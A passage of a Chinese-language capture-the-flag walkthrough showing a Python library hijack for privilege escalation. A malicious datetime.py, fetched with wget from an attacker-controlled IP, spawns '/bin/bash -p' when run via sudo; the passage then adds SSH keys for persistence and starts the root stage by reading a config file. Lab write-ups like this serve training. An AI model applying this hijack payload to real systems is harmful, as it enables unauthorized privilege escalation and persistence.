 进行库劫持，修改datetime的代码

```
www-data@debian:/var/www/html$ wget 192.168.237.147/datetime.py
wget 192.168.237.147/datetime.py
--2025-03-08 22:25:21-- http://192.168.237.147/datetime.py
Connecting to 192.168.237.147:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 88 [text/x-python]
Saving to: 'datetime.py'

     0K                                                       100% 17.5M=0s

2025-03-08 22:25:21 (17.5 MB/s) - 'datetime.py' saved [88/88]

www-data@debian:/var/www/html$ cat datetime.py
cat datetime.py
import os
class datetime():
    def now():
        os.system("/bin/bash -p")
```

然后执行**sudo**，即可获取到**debian**的权限，可以写入**/home/.ssh/authorized\_keys**来进行**ssh**密钥登录

![](./images/image-124.png)

登录拿到**User.txt**

![](./images/image-125.png)

## Root

在**/home/debian**目录下看到另外两个文件

```
debian@debian:~$ cat config.php 
<?php
$servername = "localhost";
$username = "root";
$password = "

$conn = new mysqli($servername, $username, $password);

............
............
debian@debian:~$ cat note.txt 
Damn it, I forgot my database password. I heard that Debian is currently building a message board, maybe he can help me
```
